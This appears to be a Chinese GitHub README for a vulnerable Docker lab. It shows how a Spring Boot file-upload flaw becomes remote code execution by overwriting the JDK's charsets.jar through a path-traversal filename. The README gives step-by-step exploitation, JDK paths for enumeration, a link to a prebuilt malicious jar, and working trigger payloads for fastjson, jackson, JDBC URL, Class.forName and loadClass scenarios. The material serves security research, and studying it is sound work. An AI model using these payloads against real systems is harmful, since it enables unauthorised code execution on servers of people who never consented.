 ## spring-boot-upload-file-lead-to-rce-tricks


### 一. docker 漏洞环境搭建

```
docker pull landgrey/spring-boot-fat-jar-write-file-rce:1.2
docker run -d -p 18081:18081 landgrey/spring-boot-fat-jar-write-file-rce:1.2
```



完成后访问 http://127.0.0.1:18081/ 





### 二. 相关文章

[Spring Boot Fat Jar 写文件漏洞到稳定 RCE 的探索](https://landgrey.me/blog/22/)





### 三. 常见 JDK 目录收集

欢迎提 issue 补充👏～

```
/usr/lib/jvm/java-8-oracle/jre/lib/
/usr/lib/jvm/java-1.8-openjdk/jre/lib/
/usr/lib/jvm/java-8-openjdk-amd64/jre/lib/
```





### 四. docker 漏洞环境的功能

- 文件上传功能 (默认上传到 /tmp/ 目录，可跳目录）
- 列目录功能     (列出 /tmp/ 目录下文件)





### 五. 漏洞利用条件

- 可以获得 jdk 安装的 home 目录位置
    - (可收集常见 jdk 默认安装目录位置，然后使用字典枚举尝试)

- jdk 自带文件 `/jre/lib/***.jar` 没被 `Opened` 过
    - (以 charsets.jar 文件举例：程序代码中不使用 `Charset.forName("GBK")` 类似的调用，默认就不会加载到 charsets.jar 文件)





### 六. 漏洞利用步骤

1. 选择上传文件 [charsets.jar](https://github.com/LandGrey/spring-boot-upload-file-lead-to-rce-tricks/raw/main/release/charsets.jar)

2. 使用上传文件功能，上传时用 burpsuite 截住数据包，filename 修改为 `../../usr/lib/jvm/java-1.8-openjdk/jre/lib/charsets.jar`

3. 上传成功后使用数据包触发漏洞

4. 漏洞触发成功会在 /tmp/ 目录产生 charsets_test_[random-string].log 样式名字的文件

5. 最后使用列目录功能查看漏洞利用是否成功





### 七. 漏洞利用场景：(5 个)

欢迎提 issue 补充👏～

#### 1. fastjson 最新版(目前是 1.2.76)默认配置场景

正常数据包：

```
POST /fastjson HTTP/1.1
Content-Type: application/json

{"name":"test"}
```

触发漏洞数据包：

```
POST /fastjson HTTP/1.1
Content-Type: application/json

{
    "x":{
        "@type":"java.nio.charset.Charset",
        "val":"500"
    }
}
```



#### 2. jackson 开启 enableDefaultTyping 场景

正常数据包：

```
POST /jackson HTTP/1.1
Content-Type: application/json

["code.landgrey.bean.User",{"name":"zhangsan","age":20,"car":{"brand":"daben","price":1000000},"secret":"Pas@5w0rd"}]
```

触发漏洞数据包：

```
POST /jackson HTTP/1.1
Content-Type: application/json

["sun.nio.cs.ext.IBM33722",{"x":"y"}]
```



#### 3. jdbc url getConnection 场景

正常数据包：

```
GET /jdbc?url=jdbc:mysql://127.0.0.1:3306/test?user=root&password=123456
```

触发漏洞数据包：

```
GET /jdbc?url=jdbc:mysql://127.0.0.1:3306/test?statementInterceptors=sun.nio.cs.ext.IBM33722
```



#### 4. Class forName 场景

正常数据包：

```
GET /classForName?name=code.landgrey.bean.Car
```

触发漏洞数据包：

```
GET /classForName?name=sun.nio.cs.ext.IBM33722
```



#### 5. loadClass newInstance 场景

正常数据包：

```
GET /classLoader?name=code.landgrey.bean.User
```

触发漏洞数据包：

```
GET /classLoader?name=sun.nio.cs.ext.IBM33722
```

